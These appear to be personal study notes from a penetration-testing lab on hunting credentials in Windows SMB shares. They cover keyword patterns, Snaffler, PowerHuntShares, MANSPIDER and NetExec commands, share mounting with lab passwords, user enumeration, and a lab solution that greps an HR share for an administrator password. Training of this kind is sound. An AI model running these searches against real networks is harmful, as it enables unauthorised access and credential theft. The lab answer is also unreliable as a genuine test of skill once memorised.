 #### Common credential patterns

- Look for keywords within files such as `passw`, `user`, `token`, `key`, and `secret`.
- Search for files with extensions commonly associated with stored credentials, such as `.ini`, `.cfg`, `.env`, `.xlsx`, `.ps1`, and `.bat`.
- Watch for files with "interesting" names that include terms like `config`, `user`, `passw`, `cred`, or `initial`.
- If you're trying to locate credentials within the `INLANEFREIGHT.LOCAL` domain, it may be helpful to search for files containing the string `INLANEFREIGHT\`.
- Keywords should be localized based on the target; if you are attacking a German company, it's more likely they will reference a `"Benutzer"` than a `"User"`.
- Pay attention to the shares you are looking at, and be strategic. If you scan ten shares with thousands of files each, it's going to take a signifcant amount of time. Shares used by `IT employees` might be a more valuable target than those used for company photos.
## Hunting from Windows

#### Snaffler

This is a C# program that, when run on a `domain-joined` machine, automatically identifies accessible network shares and searches for interesting files

```cmd-session
Snaffler.exe -s
```

Two useful parameters that can help refine Snaffler's search process are:

- `-u` retrieves a list of users from Active Directory and searches for references to them in files
- `-i` and `-n` allow you to specify which shares should be included in the search

#### PowerHuntShares

Is a PowerShell script that doesn't necessarily need to be run on a domain-joined machine
![[Pasted image 20250713150447.png]]

##### Basic Scan
`PowerHuntShares`

```powershell-session
PS C:\Users\Public\PowerHuntShares> Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
```

## Hunting from Linux
#### MANSPIDER

If we don’t have access to a domain-joined computer, or simply prefer to search for files remotely, tools like [MANSPIDER](https://github.com/blacklanternsecurity/MANSPIDER) allow us to scan SMB shares from Linux. It's best to run `MANSPIDER` using the official Docker container to avoid dependency issues


A basic scan for files containing the string `passw` can be run as follows:

```shell-session
shakir0x00@htb[/htb]$ docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider 10.129.234.121 -c 'passw' -u 'mendres' -p 'Inlanefreight2025!'

```
#### NetExec

`NetExec` can also be used to search through network shares using the `--spider` option

```shell-session
shakir0x00@htb[/htb]$ nxc smb 10.129.234.121 -u mendres -p 'Inlanefreight2025!' --spider IT --content --pattern "passw"
```

TIP :
if a share is found mount it.

```sh
sudo mount -t cifs //10.129.234.173/IT /mnt/smb -o user=jbader,password='ILovePower333###',domain=inlanefreight.local
cd /mnt/smb/Admin
```

### ENUM USERS
```sh
nxc smb 10.129.234.173 -u jbader -p 'ILovePower333###' --users
```


# LAB question 2 solution:

1. Found a user jbader and his password
2. Mount the confidential share : `sudo mount -t cifs //10.129.234.173/HR /mnt/smb -o user=jbader,password='ILovePower333###',domain=inlanefreight.local && cd /mnt/smb/`
3. `grep -iHn "passw" ./*`
4. FOUND : /Onboarding_Docs_132.txt:25:**Password:** `Str0ng_Adm1nistrat0r_P@ssword_2025!`

